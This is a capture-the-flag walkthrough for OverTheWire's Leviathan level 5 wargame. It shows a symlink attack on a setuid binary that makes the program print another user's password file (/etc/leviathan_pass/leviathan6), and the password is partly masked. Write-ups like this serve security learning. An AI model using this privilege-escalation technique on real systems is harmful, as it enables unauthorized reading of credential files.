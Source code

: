 ```yaml
---
title: Overthewire Leviathan Level 5
date: '2022-03-02 23:15:00'
description: ''
categories: [OverTheWire, Leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 4]({% post_url 2022-03-02-leviathan4 %}). 

username: `leviathan5` 

```ssh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```console
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```console
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```console
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```
